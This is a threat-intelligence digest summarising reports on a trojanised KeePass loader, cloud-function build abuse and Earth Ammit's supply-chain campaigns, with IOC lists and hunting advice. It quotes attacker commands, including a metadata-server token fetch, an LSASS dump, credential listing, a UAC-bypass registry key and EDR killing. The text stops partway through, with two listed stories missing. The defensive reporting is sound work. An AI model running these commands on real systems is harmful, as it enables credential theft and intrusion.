




# The Feed 2025-05-26

## AI Generated Podcast

[Spotify](https://open.spotify.com/episode/258ieaSPewsHZAnz8FddMw?si=SDHGKumDTkaSNMTtqTJCOw)

## Summarized Stories

- [**Don’t drop password managers (but password managers shouldn’t drop malware)**](#don’t-drop-password-managers-but-password-managers-shouldn’t-drop-malware): This report investigates a ransomware incident that revealed a previously undocumented, trojanised version of the legitimate KeePass password manager (referred to as KeeLoader) that was modified to function simultaneously as a Cobalt Strike loader and a credential stealer, disseminated via malvertising, and is likely connected to a prolific Initial Access Broker.

- [**Duping Cloud Functions: An emerging serverless attack vector**](#duping-cloud-functions-an-emerging-serverless-attack-vector): This article describes Talos's emulation of a technique discussed in Tenable's research to extract default Cloud Build service account tokens and enumerate cloud environments by exploiting misconfigured functions, demonstrating its applicability across GCP, AWS Lambda, and Azure Functions, and recommending mitigation through least privilege and monitoring.

- [**Earth Ammit Disrupts Drone Supply Chains Through Coordinated Multi-Wave Attacks in Taiwan**](#earth-ammit-disrupts-drone-supply-chains-through-coordinated-multi-wave-attacks-in-taiwan): This source analyzes the VENOM and TIDRONE campaigns by the threat actor Earth Ammit, focusing on their use of supply chain attacks against the drone industry in Taiwan and South Korea, employing a mix of open-source and customized tools for cyberespionage, and evolving their evasion techniques including fiber-based methods.

- [**Katz Stealer Threat Analysis**](#katz-stealer-threat-analysis): This analysis details Katz Stealer, a multi-feature malware-as-a-service used for broad system reconnaissance and data theft by targeting various applications and data types like browser credentials, cryptocurrency wallets, communication platforms, and system information, while employing diverse evasion techniques and spreading primarily through malvertising and malicious downloads.

- [**ViciousTrap – Infiltrate, Control, Lure: Turning edge devices into honeypots en masse.**](#vicioustrap-infiltrate-control-lure-turning-edge-devices-into-honeypots-en-masse): Sekoia.io investigated the threat actor ViciousTrap, who compromised over 5,500 edge devices, including SOHO routers and other network appliances, primarily in Asia, by exploiting vulnerabilities like CVE-2023-20118 to deploy the NetGhost script, which redirects traffic to attacker-controlled infrastructure, effectively turning compromised devices into nodes for a distributed honeypot network likely aimed at collecting vulnerability exploits and observing other threat activity, suggesting a potential Chinese-speaking origin.

## Don’t drop password managers (but password managers shouldn’t drop malware)
### Summary
This report details a sophisticated malware campaign discovered in February 2025 during a ransomware incident response engagement. The campaign, which spanned at least 8 months, involved the use of trojanized versions of the popular open-source password manager, KeePass. Threat actors modified the legitimate KeePass source code, recompiled the software, and signed it with trusted certificates. This modified software, referred to as KeeLoader, was propagated through malvertising techniques, leading to installations on multiple systems, including those of WithSecure customers. Unlike typical trojans that bundle malicious files, this campaign stands out because the actors deliberately altered the core functionality of the legitimate software to achieve both malware loading and credential stealing simultaneously.

The infrastructure supporting this campaign has been linked to a prolific Initial Access Broker (IAB) responsible for significant ransomware breaches over the past two years, particularly impacting European and global organizations. The complexity of the tools used, including custom loaders and Cobalt Strike beacons, alongside the use of 'as-a-service' components within the criminal ecosystem, made attribution and detection difficult for many off-the-shelf security products. The campaign highlights the continued effectiveness of malvertising and the increasing investment by threat actors in sophisticated delivery mechanisms and infrastructure to enhance the success and persistence of ransomware operations, even as specific ransomware brands may cease operation.

### Technical Details

The malicious campaign's initial access vector was primarily through malvertising on search engines like Bing and potentially DuckDuckGo. Users searching for legitimate software were directed to malicious infrastructure via purchased advertisements. The redirection chain observed in one incident was KeePass-info[.]aenys[.]com (from the ad) → keeppaswrd[.]com/download[.]php → lvshilc[.]com/KeePass-2[.]56-Setup[.]exe, leading to the download of the trojanized KeePass installer. The initial access in the reported incident response case was described as an inadvertent download propagated through malvertising. Other typosquatting domains like KeePassx[.]com, keegass[.]com, keebass[.]com, keespass[.]biz, and KeePass[.]me were also used to serve these installers. These malicious domains and others used in wider campaigns were often registered on NameCheap, hosted on Cloudflare, and used HTTPS certificates from Google Trust Services with a short validity period.

The downloaded file was a modified InnoSetup installer for KeePass (e.g., KeePass-2.56-Setup.exe). This installer dropped the standard KeePass files but included two modified executables: KeePass.exe and ShInstUtil.exe, typically placed in %localappdata%\KeePass Password Safe 2\. The threat actor modified the legitimate open-source code of KeePass and ShInstUtil.exe to embed malicious functionality before recompiling them. The installer then launched the modified KeePass.exe.

The modified KeePass.exe performed two primary malicious operations:
1.  **Persistence and Loader Execution:** It set up an autorun registry key named 'keepass' under HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run to launch the modified ShInstUtil.exe with a specific parameter, e.g., `--update <key>`. This is a non-standard parameter for the legitimate ShInstUtil.exe. This autorun mechanism ensured the persistence of the Cobalt Strike beacon loader.
2.  **Credential Dumping:** The functionality of KeePass was extended such that when a user opened a password database, KeeLoader automatically extracted account names, login names, passwords, websites, and comments. This data was then exported into a CSV format file with a random integer name between 100 and 999 and a '.kp' extension (e.g., `<RANDOM_INTEGER>.kp`) saved locally in the %localappdata% directory. Older variants of KeeLoader were observed to directly exfiltrate these credentials to remote URLs like alldataservice[.]com and howupbusiness[.]com.

The modified ShInstUtil.exe, when launched by the autorun key with the `--update <key>` parameter, was responsible for loading the Cobalt Strike beacon. It loaded an encrypted Cobalt Strike payload, typically named 'db.idx', from the same directory (%localappdata%\KeePass Password Safe 2\). This file was disguised as a JPG file by including a JPG header, despite containing encrypted shellcode. ShInstUtil.exe used the `--update <key>` argument as the RC4 decryption key for the payload. After decryption, the beacon shellcode was executed in memory using the `EnumFontsW` callback function, proxying the execution flow to the shellcode's address. Older variants used `EnumChildWindows`.

The Cobalt Strike beacon used in the KeePass incident had the watermark 1357776117. Its configuration included C2 domains arch-online[.]com and aicmas[.]com, connecting over HTTPS on port 443 with a sleep time of 112922 ms and a jitter of 46%. Malleable C2 profiles were used, including masking and encoding techniques like netbiosu.

Lateral movement during the incident involved the use of valid accounts, SSH (with credentials), RDP (with credentials), and SMB. A Cobalt Strike SMB beacon, executed via a C# loader masquerading as 'eupdater.csproj', was dropped on remote systems over port 445. Connection attempts were made to remote hosts on ports 445 and 135. SSH was enabled on ESXi servers, and connections were initiated. SCP was leveraged to drop files on ESXi servers. The credentials stolen from the KeePass database were highly likely used for lateral movement via RDP.

The final action on objectives was the encryption of data in the ESXi environment, including a Veeam Backup virtual machine. Virtual machines were powered off before ransomware execution. The ransomware sample itself was not recovered, but the ransom note, titled "How To Restore Your Files.txt", matched the text of an Akira ransom note but contained an onionmail address and a session token instead of Akira's usual contact methods. The session ID on the ransom note was the SHA256 hash of another KeePass themed loader, indicating a connection between the loader development and the ransomware operation. This combination of techniques suggests a technically capable actor potentially leveraging 'as-a-service' offerings or even a former Ransomware-as-a-Service affiliate operating independently.

Wider campaign analysis revealed that the malvertising domain aenys[.]com hosted subdomains masquerading as various software and services, including WinSCP, TreeSize Free, Microsoft Teams, Advanced IP Scanner, and cryptocurrency platforms. These other lures led to the delivery of different malware loaders, such as Nitrogen Loader and potentially Rhadamanthys, or directed users to suspected phishing pages. Nitrogen Loader also delivered Cobalt Strike beacons, observed with a different watermark (678358251) and distinct C2 configurations and URI paths. The infrastructure linked to the Nitrogen Loader activity, including domains like ghaithana[.]com and roatanforareason[.]com, overlaps with activity attributed to UNC4696, a threat actor known for similar TTPs since 2023. However, the specific redirection chain used in the KeePass incident (involving keeppaswrd[.]com) makes it difficult to definitively attribute the KeePass operation to UNC4696 with high confidence, as the initial domains could potentially be controlled by a service provider.

The development of the trojanized KeePass loaders appears iterative, with samples observed dating from July 2024 to February 2025, showing changes in credential exfiltration methods (direct exfil vs. local saving), persistence parameters, and payload loading techniques (EnumChildWindows vs. EnumFontsW). All observed samples were signed with legitimate or previously legitimate (revoked) certificates from various entities like MekoGuard Bytemin Information Technology Co., Ltd., Shenzhen Kantianxia Network Technology Co., Ltd., AVARKOM LLC, and S.R.L. INT-MCOM. This use of trusted code signing further enhanced defense evasion.

### Countries
The ransomware incident occurred at a European IT service provider. The threat actor is likely responsible for a significant amount of ransomware events impacting European and global organisations.

### Industries
The incident involved an IT service provider. The threat actor likely impacts a range of industries given their role as an Initial Access Broker impacting European and global organizations.


### IOC
**Hashes (SHA256 unless otherwise specified)**
```
0000cff6a3c7f7eebc0edc3d1e42e454ebb675e57d6fc1fd968952694b1b44b3
8b386b89e614d3084c1da3c28e324fb2 (MD5 of KeePass-2.56-Setup.exe)
d2984f9bf8f71cbbed61e44cd4f1e888a8f2a26a (SHA1 of KeePass-2.56-Setup.exe)
0fc4397d28395974bba2823a1d2437b33793127b8f5020d995109207a830761b
c676acf4e16cc7cdd813c423b4824873 (MD5 of ShInstUtil.exe)
7f931cda5a0e340e60506d7f9db801becc24bcc4 (SHA1 of ShInstUtil.exe)
b51dc9ca6f6029a799491bd9b8da18c9d9775116142cedabe958c8bcec96a0f0
0e5199b978ae9816b04d093776b6699b660f502445d5850e88726c05e933e7d8
f1c6d8e594f85cd2cb844a3e8a90509ea137a67d7ef3f1b68a7be17df6ccac74
0f6cfb62ed2f118c776a049b93e5d3e7b226f74e7b466c1cfed3c449ed23a42b
83a13d14e1cbc25e46be87472de1956ac91727553bb3f019997467b2bab2658f
128a68a714f2f6002f5e8e8cfe0bbae10cd2ffe63d30c8acc00255b9659ce121
3733b3be213ee4b959b70ff070b46e30b2785b14f1aecb74e0788dd00a1e1853
2c510f9ae4472342faafb7f2a1f278160f3581ead8ccd5b7ba7951863dcba2f5
9cb3de5d5cc804235bd12c00ed45ec9d6116cc2c7523986dddb4d8643d54f5e5
42d391dd7bfa4ea348ec1cd2620ea6458b37682f2b303e4a266e3d11a689f8ab
c6ed28cc576340b9f0e9324bef8c8c428bcd32c5234be73b885caa20549f332b
a5e643c6cda31e0c7691dab58febe2efce0e98c33b19fe495b74b885de134a22
2dd75a7f9948d794e95539b9a9ccc6a1488fb64dbe099fea401a13f98166d6ae
5b48bbf2364f78812ea411ef41fb8b693a3965df13596b303e12f69908784d03
fa3eca4d53a1b7c4cfcd14f642ed5f8a8a864f56a8a47acbf5cf11a6c5d2afa2
```
**Domains**
```
KeePass-info.aenys.com
keeppaswrd.com
lvshilc.com
arch-online.com
aicmas.com
salliemae-com-login.aenys.com
winscp-net-download.aenys.com
woodforest-login.aenys.com
phantom-wallet-com.aenys.com
dexscreener-com.aenys.com
Pump-fun.aenys.com
Pump-fun-official.aenys.com
KeePass-download.grmspace.com
KeePass-download.insightsforconsultancy.com
KeePassx.com
keegass.com
keebass.com
keespass.biz
KeePass.me
burleson-appliance.net
concord-appliance.com
desoto-appliance.net
resvat.com
takuripo.com
zowhy.com
smakotin.com
resvat.co
protek-tech.com
larcausk.site
nestlingspace.com
animatedwebworks.com
precizeabrilliant.com
cadcamlabs.ru
prythera.com
insightsforconsultancy.com
alldataservice.com
howupbusiness.com
ghaithana.com
roatanforareason.com
```
**IP Addresses**
```
89.35.237.180 (possible exfil destination for older sample)
```
**URLs**
```
https://lvshilc.com/KeePass-2.56-Setup.exe
https://keeppaswrd.com/download.php
https://arch-online.com/List/com2/9O29EO3IRSBB
https://aicmas.com/List/com2/9O29EO3IRSBB
https://aicmas.com/Apply/readme/VJICARU60DC?[REDACTED]=[REDACTED]
http://1ba8d063-0.b-cdn.net (Cobalt Strike Nitrogen Cluster C2)
http://roatanforareason.com/wp-content/plugins/fix/TreeSizeFreeSetup.zip (Nitrogen Downloader)
```

**Original link:** [https://labs.withsecure.com/content/dam/labs/docs/W_Intel_Research_KeePass_Trojanised_Malware_Campaign.pdf](https://labs.withsecure.com/content/dam/labs/docs/W_Intel_Research_KeePass_Trojanised_Malware_Campaign.pdf)

## Duping Cloud Functions: An emerging serverless attack vector
### Summary
This article details research conducted by Cisco Talos, following up on a vulnerability initially discovered by Tenable Research, concerning serverless compute services in major cloud platforms like Google Cloud Platform (GCP), Amazon Web Services (AWS), and Microsoft Azure. The original vulnerability in GCP Cloud Functions involved excessive permissions granted by the default Cloud Build service account during the function deployment process, which could be exploited by an attacker with the ability to create or update a function to escalate privileges. Although Google has since addressed this specific privilege escalation vector by changing the default behavior and providing organizational policy control, the underlying technique of leveraging the function build process to execute commands remains viable for other malicious activities, particularly environment enumeration across different cloud providers. This represents a strategic threat vector where adversaries, upon gaining initial access to cloud function deployment capabilities, can gather valuable intelligence about the compromised environment to plan subsequent attack stages.

### Technical Details
The attack vector described leverages the build process of serverless functions, specifically in Node.js environments, which utilize Node Package Manager (NPM) and its associated `package.json` file. Tenable Research initially identified this in GCP Cloud Functions and Cloud Build, where the deployment process attached a default Cloud Build service account (SA) with excessive permissions. An attacker who could create or update a Cloud Function could exploit this by modifying the function's deployment package, specifically the `package.json` file, to execute malicious commands during the build.

Cisco Talos extended this research, demonstrating that while the original privilege escalation via default SA token exfiltration is mitigated, the technique can still be used for environment enumeration across GCP, AWS Lambda, and Azure Functions. The core technical tactic involves inserting malicious console commands into the `scripts` section of the `package.json` file, specifically within the `preinstall` script. When the cloud function is deployed or updated, the build process installs the defined dependencies, which triggers the `preinstall` script execution.

To exfiltrate the output of the executed commands, the malicious script pipelines the command output (`|`) to a `curl` command. The `curl` command sends the data via an HTTP POST request with `Content-Type: application/x-www-form-urlencoded` to a listening server. In their proof-of-concept, Talos used Ngrok to create a public tunnel to a local Python HTTP server, allowing data from the cloud function's build environment to be received and displayed.

Key TTPs and observed commands used for enumeration include:
- **Exfiltrating Service Account Tokens (Initially possible in GCP, now patched):** The command `curl -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/123456789333@cloudbuild.gserviceaccount.com/token'` was used to fetch the default Cloud Build service account token, which was then posted to the attacker's server via `curl`. Google has patched this specific method.
- **ICMP Discovery:** Using the `ping` command to test network reachability (`ping -c 1 <IP>`) can reveal network structure. The output is sent to the attacker's server.
- **Detecting Docker Environment:** Checking for the existence of the `.dockerenv` file (`ls -l /.dockerenv` or `test -f /.dockerenv`) helps attackers confirm if they are running inside a Docker container, influencing subsequent actions. The source shows `[ ! -f /.dockerenv ] ? $?` which checks if the file does *not* exist and outputs the return code, but the output screenshot shows `echo [ ! -f /.dockerenv ] ? $?` and receives `0%0A` or `1%0A` indicating the result of the check.
- **Enumerating CPU Scheduling:** The command `cat /proc/1/sched` provides scheduling and status information for PID 1, often the init system in a container, helping attackers understand the system's configuration. The output is exfiltrated.
- **Enumerating Mount Points and Container ID (Control Groups):** The command `cat /proc/self/mountinfo` reveals current mount points and can help identify sensitive filesystems or potential container escape vectors through mount namespaces. The extensive output is sent to the attacker's server.
- **Initial Server Overview:** Commands like `uname -a` (kernel, architecture, distribution) and `cat /etc/os-release` (OS distribution and version) are combined to get a foundational understanding of the host system. This is critical for selecting appropriate exploits.
- **User and Permission Enumeration:** Commands like `whoami` (current user) and `cat /etc/passwd` (user accounts) and `groups` (group memberships) provide insights for privilege escalation and lateral movement. The output is sent to the attacker's server. Accessing `/etc/shadow` for hashed passwords is also mentioned as a potential target.
- **Network Discovery:** Commands such as `ip addr show` (network interfaces and addresses), `ip route` (routing table), and `ss -tulpn` (listening network sockets) reveal details about the network configuration and active services.

The prerequisites for the attacker's setup include a virtual machine (can be in any cloud environment), Node Package Manager (NPM), Ngrok, and a listening server (like the described Python server) to receive the exfiltrated data. The compromised cloud function must be configured to use an SA with sufficient permissions for Cloud Build to execute commands, although the specific high-privilege access granted by the default SA in the original Tenable finding has been mitigated.

This technique is applicable to any serverless function service that uses NPM for dependency management during its build process and allows arbitrary command execution via `package.json` scripts, including AWS Lambda and Azure Functions when configured with a Node.js runtime.

### Countries
The provided sources do not specify any targeted countries. The attack vector applies to environments hosted on Google Cloud Platform, Amazon Web Services, and Microsoft Azure, which are global cloud providers.

### Industries
The provided sources do not specify any targeted industries. The attack vector could potentially affect any organization utilizing vulnerable configurations of GCP Cloud Functions, AWS Lambda, or Azure Functions.

### Recommendations
Based on the source, the following technical recommendations are provided:
*   Ensure that all Service Accounts (SAs) within your cloud environment adhere strictly to the principle of least privilege, meaning they should only have the minimum permissions necessary for their intended function.
*   Identify and replace any legacy cloud SAs that might have excessive permissions.
*   Keep all cloud services and their dependencies up to date with the latest security patches.
*   Implement access controls such that users with permissions to create or update Cloud Functions do not also have extensive IAM permissions to the services orchestrated by those functions.
*   Regularly audit and monitor SA permissions, paying close attention to default SAs like the (formerly vulnerable) Cloud Build SA.
*   Verify the integrity and authenticity of NPM packages used within Cloud Functions to prevent the execution of malicious scripts embedded in `package.json` files.

### Hunting methods
The source provides recommendations that can be translated into hunting methods, focusing on detecting the attack prerequisites and the execution of malicious commands or data exfiltration.

*   **Audit and monitor SA permissions:** Focus on permissions related to Cloud Build and Cloud Functions in GCP, or equivalent build/deployment services and serverless functions in AWS and Azure. Look for SAs (especially default ones) with overly broad permissions that could be leveraged for malicious activities.
*   **Alert setup for Cloud Functions:** Establish alerts for unusual or unauthorized actions related to Cloud Function creation or modification. This could involve monitoring control plane logs (like GCP Cloud Audit Logs, AWS CloudTrail, Azure Activity Logs) for `create` or `update` events targeting function resources, particularly if initiated by unexpected identities or from unusual locations.
*   **Inspect network traffic:** Monitor network traffic originating from the cloud function build environment for connections to unknown or unauthorized external endpoints. Look for outbound connections to tunneling services like Ngrok or suspicious IP addresses/domains, especially those carrying large amounts of data that could represent exfiltrated enumeration results. This could involve analyzing VPC flow logs, proxy logs, or Cloud DNS logs depending on the environment setup.
*   **Verify NPM package integrity:** Scan NPM package dependencies defined in `package.json` files used by cloud functions for known malicious packages or suspicious scripts, particularly in `preinstall`, `install`, or `postinstall` scripts. Implement automated scanning during the CI/CD pipeline.
*   **Detect environment enumeration:** Look for command execution patterns indicative of enumeration within the cloud function build environment logs or associated container logs. Specific command patterns to hunt for include:
    *   `ping` commands with suspicious target IPs.
    *   File existence checks like `test -f /.dockerenv` or `ls` commands targeting sensitive system files or directories.
    *   Reads of system information files like `/proc/1/sched`, `/proc/self/mountinfo`, `/etc/os-release`, `/etc/passwd`, `/etc/shadow`.
    *   Execution of network commands like `ip addr show`, `ip route`, `ss -tulpn`.
    *   Execution of user/group commands like `whoami`, `groups`.
    *   Look for these commands being executed during the build phase (`preinstall` script execution) and look for subsequent outbound network connections attempting to exfiltrate the command output via `curl` or similar tools.

There are no specific Yara, Sigma, KQL, SPL, IDS/IPS, or WAF rules provided in the source. The logic for hunting queries would involve searching logs for the execution of the commands listed above within the context of a function build/deployment process, combined with monitoring network egress for suspicious connections.

**Original link:** [https://blog.talosintelligence.com/duping-cloud-functions-an-emerging-serverless-attack-vector/](https://blog.talosintelligence.com/duping-cloud-functions-an-emerging-serverless-attack-vector/)

## Earth Ammit Disrupts Drone Supply Chains Through Coordinated Multi-Wave Attacks in Taiwan

### Summary
Earth Ammit is a sophisticated threat actor potentially linked to Chinese-speaking APT groups. This group has been active with coordinated, multi-wave campaigns targeting the drone supply chain, primarily in Taiwan and South Korea, but also with earlier activity observed in Canada and South Korea. Their long-term strategic objective is to compromise trusted upstream networks via supply chain attacks to gain access to high-value entities located downstream. Earth Ammit's operations have evolved over time, shifting from primarily using open-source tools in early stages (VENOM campaign) to leveraging custom-built malware and advanced evasion techniques in later, more targeted operations (TIDRONE campaign). This evolution includes adopting fiber-based techniques and exception handling for stealth and anti-analysis purposes. The group targets a wide array of sectors including military, satellite, heavy industry, media, technology, software services, healthcare, and payment providers, indicating a broad intelligence collection mandate potentially focused on disrupting or gathering information related to sensitive industries and supply chains. The VENOM and TIDRONE campaigns are strongly linked through shared victims, service providers, and overlapping command and control (C&C) infrastructure.

### Technical Details

aaa
Earth Ammit employs a combination of techniques throughout their campaigns, heavily leveraging supply chain compromises to achieve their objectives. The overall strategy involves initial penetration of upstream vendors to reach downstream targets.

**Supply Chain Attack Techniques**:
The observed attacks utilized two main types of supply chain techniques:
*   **Classic supply chain attack (Path A):** Involves injecting malicious code into legitimate software or replacing software update packages with tampered versions. This method requires the attacker to insert or replace code within the victim's supply chain pipeline.
*   **General supply chain attack (Path B):** Leverages compromised upstream vendors to distribute malware across connected environments using trusted communication channels like remote monitoring or IT management tools. This allows lateral movement to downstream targets without altering software artifacts.
Both the VENOM and TIDRONE campaigns incorporated a mix of these techniques. The TIDRONE campaign's initial access stage specifically involved targeting service providers and then performing malicious code injection and distributing malware through trusted channels to downstream customers, mirroring aspects of VENOM.

**Initial Access and Persistence**:
Attackers exploited web server vulnerabilities and uploaded web shells to gain initial entry into servers. Following a breach, open-source proxy tools and Remote Access Tools (RATs) were used to maintain persistence within the system. Persistence was also achieved through running scheduled tasks or replacing legitimate executables with auto-run features.

**Post-Exploitation Activities**:
Once persistence is established, the actor's objectives include:
*   **Credential Dumping:** Targeting NTDS data and using conventional commands associated with tools like Mimikatz to steal credentials. Observed commands include:
    *   `C:\Windows\Temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp`
    *   `C:\Windows\SysWOW64\cmdkey.exe /list`
    *   `C:\Temp\procwin.exe` (Execution of Mimikatz)
    These compromised credentials are then leveraged to compromise downstream customers in subsequent stages, linking back to the TIDRONE campaign.
*   **Privilege Escalation:** Observed activities include performing UAC Bypass and restarting processes with the Winlogon process token. Registry modifications like adding `HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute` and setting its default value to an executable like `C:\ProgramData\winword.exe` were noted. Execution from temporary locations like `%APPDATA%\.temp\winsrv.exe` was also seen.
*   **Disabling Antivirus Software:** Tools like `TrueSightKiller.exe` were used to terminate antivirus (AV) and endpoint detection and response (EDR) processes. An example command is `mytemp$\TrueSightKiller.exe -n smartscreen.exe`.
*   **Collecting Victim's Information:** Custom tools like `main.exe` and ScreenCap were used to collect information, including screenshots.

**Tools and Malware Arsenal**:
The tooling strategy evolved between campaigns:
*   **VENOM Campaign Arsenal:** Primarily used open-source tools like LWSCION, REVSOCK, proxy tools, BlueShell, and Sliver. The preference for open-source tools initially aimed to reduce costs and hinder attribution. A notable exception is VENFRPC.
    *   **VENFRPC:** A customized version of FRPC with the configuration directly embedded, making it easier for the attacker to manage and identify specific victims. Hosted on platforms like GitHub.
*   **TIDRONE Campaign Arsenal:** Shifted towards using custom-built tools for cyberespionage, including CXCLNT, CLNTEND, and ScreenCap.
    *   **CXCLNT:** Active from 2022 to 2024. This customized backdoor is an EXE that executes entirely in memory to avoid detection. It supports communication via SSL with a custom protocol and standard HTTPS. Its functionality is modular, relying on plugins retrieved dynamically from the C&C server. Commands include general functions like sending victim info (BIOS, Computer name, config mark, host IP, OS), turning off the backdoor, receiving shellcode, clearing footprints, and updating C&C information stored in the registry. Plugin manipulation commands handle receiving, loading, and interacting with plugins. It includes a flag in the embedded configuration to switch between test and target modes.
    *   **CLNTEND:** Observed starting in 2024. An evolved successor to CXCLNT, delivered as a DLL and also executing in memory. Features a dual client/server mode and supports a wider range of communication protocols: TCP, HTTP, HTTPS, TLS, SMB (port 445), UDP, and WebSocket. Includes anti-detection features such as process injection into `dllhost.exe` and disabling EDR solutions. Capabilities are organized into Link (connection methods, mode), Plugin (manipulation, fewer export functions than CXCLNT), and Session (injected remote shell) modules. Similar victim information collection and mode selection logic to CXCLNT.
    *   **ScreenCap:** A customized screenshot tool, often installed by CLNTEND via remote shell, adapted from open-source code. Used to exfiltrate screenshots to the C&C server.

**Loader Evolution and Evasion Techniques**:
From 2023 to 2024, Earth Ammit's malware loaders evolved to incorporate advanced evasion and anti-analysis techniques, potentially inspired by public cybersecurity conference presentations.
*   **Fiber-Based Techniques:**
    *   **SwitchToFiber (2023):** Variant A utilized `ConvertThreadToFiber` to convert the current thread, `CreateFiber` to create a new fiber with malicious code, and `SwitchToFiber` to transfer execution.
    *   **FlsAlloc (2024):** Variant B registered a callback function using `FlsAlloc` which would execute the malicious code when the associated fiber object was freed or deleted.
*   **Exception Handling (2024):** Variant C leveraged custom exception handlers that execute malicious code when an exception is triggered, often through callback functions like one called by `ImmEnumInputContext`.
*   **Anti-Analysis Techniques:**
    *   **Entrypoint Verification:** Uses `GetModuleHandle` to retrieve process information and an XOR check to verify if the entry point matches the expected target process, hindering analysis when executed outside its intended environment.
